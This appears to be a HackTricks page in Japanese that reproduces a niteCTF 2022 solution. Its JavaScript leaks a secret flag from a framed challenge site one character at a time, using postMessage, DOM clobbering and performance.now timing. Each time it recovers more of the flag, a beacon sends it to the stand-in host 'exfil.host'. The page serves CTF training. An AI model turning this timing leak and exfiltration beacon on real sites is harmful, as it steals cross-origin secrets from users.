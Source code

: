 # performance.nowの例

{{#include ../../banners/hacktricks-training.md}}

**例は[https://ctf.zeyu2001.com/2022/nitectf-2022/js-api](https://ctf.zeyu2001.com/2022/nitectf-2022/js-api)から取得しました**
```javascript
const sleep = (ms) => new Promise((res) => setTimeout(res, ms))

async function check(flag) {
let w = frame.contentWindow
w.postMessage(
{ op: "preview", payload: '<img name="enable_experimental_features">' },
"*"
)
await sleep(1)
w.postMessage({ op: "search", payload: flag }, "*")
let t1 = performance.now()
await sleep(1)
return performance.now() - t1 > 200
}

async function main() {
let alpha =
"abcdefghijklmnopqrstuvwxyz0123456789_ABCDEFGHIJKLMNOPQRSTUVWXYZ-}"
window.frame = document.createElement("iframe")
frame.width = "100%"
frame.height = "700px"
frame.src = "https://challenge.jsapi.tech/"
document.body.appendChild(frame)
await sleep(1000)

let flag = "nite{"
while (1) {
for (let c of alpha) {
let result = await Promise.race([
check(flag + c),
new Promise((res) =>
setTimeout(() => {
res(true)
}, 300)
),
])
console.log(flag + c, result)
if (result) {
flag += c
break
}
}
new Image().src = "//exfil.host/log?" + encodeURIComponent(flag)
}
}

document.addEventListener("DOMContentLoaded", main)
```
{{#include ../../banners/hacktricks-training.md}}
